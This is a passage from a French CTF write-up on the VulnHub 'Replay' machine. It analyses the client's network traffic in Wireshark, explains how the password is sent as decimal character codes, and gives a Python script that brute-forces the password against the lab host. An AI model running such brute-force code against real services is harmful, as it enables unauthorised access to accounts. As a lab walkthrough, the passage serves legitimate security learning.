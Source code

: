 Ces chaînes apparaissent en réalité accolées, j'ai découpé en lignes pour que ce soit plus lisible. Les habitués de Python sauront reconnaître les mots clés du langage dans ce charabia.  

Lancer un *ltrace* ou un *strace* retourne bien trop d'output sans intérêt. Le mieux que l'on puisse faire est de lancer *Wireshark* et de surveiller les communications générées entre notre machine et celle du CTF :  

![VulnHub Replay CTF first trafic analysis](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/replay_trafic1.png)

Le premier comportement suspect c'est la façon dont sont envoyées les données au serveur, par petits blocs, ce qui explique notamment le temps de traitement assez long.  

Sans trop de difficultés on devine qu'une fois que le serveur a envoyé la chaîne *CH1:*  au client ce dernier envoie la représentation décimale de chaque caractère du mot de passe saisi (la lettre t correspond à 116, et la lettre o à 111).  

Le client envoie ensuite un padding composé des caractères 0 jusqu'à obtenir l'équivalent de 30 envois.  

Plus tard le client envoie une valeur en base64 mais c'est déjà trop tard car on a déjà reçu un message d'échec à ce stade...  

On peut tenter de brute-forcer le mot de passe avec un script maison :  

```python
import socket
from time import sleep
import sys

wordlist = sys.argv[1]
with open(wordlist) as fd:
    for line in fd:
        line = line.strip()
        if len(line) > 31:
            continue

        try:
            sock = socket.socket()
            sock.connect(('192.168.2.2', 1337))
            sock.recv(5)
            sock.recv(1)
            for char in line.ljust(30, '\0'):
                sleep(.01)
                sock.send(str(ord(char)).encode())
            buff = sock.recv(1024)
            if b"Auth Failed" not in buff:
                print(buff)
                print("Found password", line)
                exit()

            sock.close()
            sleep(.01)
        except:
            print(line)
            exit()
```
